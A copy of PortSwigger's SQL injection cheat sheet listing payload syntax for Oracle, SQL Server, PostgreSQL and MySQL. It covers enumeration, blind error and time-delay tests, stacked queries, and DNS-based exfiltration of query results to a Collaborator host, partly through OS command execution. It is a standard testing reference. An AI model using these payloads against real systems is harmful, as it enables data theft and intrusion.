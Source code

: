 
[PORTSWIGGER SQL injection cheat sheet] https://portswigger.net/web-security/sql-injection/cheat-sheet

This SQL injection cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

String concatenation
--------------------

You can concatenate together multiple strings to make a single string.

 Oracle  `'foo'||'bar'` 
 
 Microsoft  `'foo'+'bar'` 
 
 PostgreSQL  `'foo'||'bar'` 
 
 MySQL `'foo' 'bar'` \
`CONCAT('foo','bar')` 

Substring
---------

You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string `ba`.

Oracle  `SUBSTR('foobar', 4, 2)` 

Microsoft  `SUBSTRING('foobar', 4, 2)` 

PostgreSQL  `SUBSTRING('foobar', 4, 2)` 

MySQL  `SUBSTRING('foobar', 4, 2)` 

Comments
--------

You can use comments to truncate a query and remove the portion of the original query that follows your input.

Oracle  `--comment\`

Microsoft  `--comment\
/*comment*/` 

PostgreSQL  `--comment\
/*comment*/` 

MySQL  `#comment`\
`-- comment` \
`/*comment*/` 

Database version
----------------

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

Oracle  `SELECT banner FROM v$version\
SELECT version FROM v$instance\` 

Microsoft  `SELECT @@version` 

PostgreSQL  `SELECT version()` 

MySQL  `SELECT @@version` 

Database contents
-----------------

You can list the tables that exist in the database, and the columns that those tables contain.

Oracle  `SELECT * FROM all_tables\
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'` 

Microsoft  `SELECT * FROM information_schema.tables\
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'\`

PostgreSQL  `SELECT * FROM information_schema.tables\
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'\`

MySQL  `SELECT * FROM information_schema.tables\
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` 

Conditional errors
------------------

You can test a single boolean condition and trigger a database error if the condition is true.

Oracle  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual` 
 
Microsoft  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END` 
 
PostgreSQL  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END` 

MySQL  `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` 

Batched (or stacked) queries
----------------------------

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

Oracle  `Does not support batched queries.` 

Microsoft  `QUERY-1-HERE; QUERY-2-HERE` 

PostgreSQL  `QUERY-1-HERE; QUERY-2-HERE` 

MySQL  `QUERY-1-HERE; QUERY-2-HERE` 

#### Note

With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

Time delays
-----------

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

Oracle  `dbms_pipe.receive_message(('a'),10)` 

Microsoft  `WAITFOR DELAY '0:0:10'` 

PostgreSQL  `SELECT pg_sleep(10)` 

MySQL  `SELECT sleep(10)` 

Conditional time delays
-----------------------

You can test a single boolean condition and trigger a time delay if the condition is true.

Oracle  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual` 

Microsoft  `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'` 

PostgreSQL  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END` 

MySQL  `SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')` 

DNS lookup
----------

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

Oracle  The following technique leverages an XML external entity ([XXE](https://portswigger.net/web-security/xxe)) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:\
`SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`

The following technique works on fully patched Oracle installations, but requires elevated privileges:\
`SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')` |

Microsoft  `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'` 

PostgreSQL  `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'` 

MySQL  The following techniques work on Windows only:\
`LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`\
`SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'` 

DNS lookup with data exfiltration
---------------------------------

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

Oracle  `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual` 

Microsoft  `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')` 

PostgreSQL  `create OR replace function f() returns void as $$\
declare c text;\
declare p text;\
begin\
SELECT into p (SELECT YOUR-QUERY-HERE);\
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';\
execute c;\
END;\
$$ language plpgsql security definer;\
SELECT f();` 

MySQL  The following technique works on Windows only:\
`SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'` 


